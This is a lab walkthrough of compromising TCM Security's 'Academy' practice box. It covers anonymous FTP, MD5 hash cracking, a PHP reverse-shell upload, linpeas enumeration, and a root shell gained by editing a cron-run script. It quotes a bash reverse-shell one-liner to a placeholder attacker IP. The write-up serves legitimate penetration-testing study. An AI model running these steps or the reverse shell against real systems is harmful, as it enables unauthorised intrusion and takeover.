# Academy Box - Provided by TCM Security

- Box has IP address `10.0.2.10`

## Scanning and Enumeration

- Running nmap scan against target machine

    

- Interest findings
  - Port `21/tcp - ftp - Anonymous FTP login allowed - vsftpd 3.0.3`
  - Port `22/tcp - SSH - OpenSSH 7.9p1 Debian`
  - Port `80/tcp - http - Apache2 httpd 2.4.38`
  - OS details - `Linux 4.15 | 5.6`

- Since I found port `80` open, running `nikto` against target
  
  

- Also ran `Disbuster`
  
  

## Research

- `Anonymous FTP login allowed (FTP code 230)` was interesting in the results.
  - Found this site - [Anonymous Login](https://vk9-sec.com/anonymous-login/)

## Exploitation

- Using `auxiliary/scanner/ftp/anonymous` module to detect anonymous FTP access

    

  - Results show anonymous login has `READ` permissions

- Used `anonymous` user to connect to FTP target machine

    

- I was able to get the `note.txt` from the target. These are the contents of it

    

- Grabbed the hash from the file and used `hash-identifier`, determined it was an `MD5` hash

    

- Used `hashcat` to crack the hash which turned out to be `student`

    

- Grabbed the Registration number from `note.txt` and the cracked password to login.
- Once logged in was prompted to change password, so I went ahead and did that.

  

- Used a [`php-reverse-shell`](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) by uploading it to the site using the photo upload

  

- Set `netcat` to listen on the port the exploit uses

  

## Privilege Escalation

- Downloaded `linpeas.sh` and put it in a transfer folder.
- Then used python to host a web server and then did `wget` on the victim machine

  

  

- Ran `linpeas.sh` on the victim machine
- Found user `grimmie` and a password - was able to ssh using these credentials

  

- Found file `/home/grimmie/backup.sh` - and figured out it runs every minute
- Added a bash reverse shell one-liner - `bash -i >& /dev/tcp/ATTACK_IP/PORT 0>&1`
- Set netcat to listen on port

  

- Executes as `root` and pops a `root` shell on the attacker machine

  

- Found `flag.txt`

  
